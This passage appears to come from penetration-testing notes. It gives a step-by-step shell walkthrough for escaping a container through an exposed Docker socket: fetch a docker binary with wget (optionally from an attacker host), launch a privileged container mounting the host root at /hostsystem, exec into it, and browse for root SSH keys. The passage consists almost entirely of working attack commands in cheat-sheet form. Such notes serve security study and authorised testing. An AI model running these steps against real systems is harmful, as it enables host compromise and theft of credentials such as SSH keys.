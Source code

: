         ls -l
        # we can check for sensitive files like SSH keys
        ```
    
    * Docker sockets:

        ```sh
        # docker socket is used for communication with Docker daemon

        ls -la
        # check for any docker.sock files

        # we can use docker executable to interact with socket
        # and enumerate containers

        cd /tmp

        wget https://master.dockerproject.org/linux/x86_64/docker -O docker
        # or fetch from attacker to target

        chmod +x docker

        /tmp/docker -H unix:///app/docker.sock ps
        
        # map host root directory to /hostsystem on container
        # using main_app Docker image

        /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

        /tmp/docker -H unix:///app/docker.sock ps
        # note the container ID

        # log into the new privileged Docker container
        /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

        # in host container, browse root directory for any SSH keys
        ls -la /hostsystem/root
        ```
    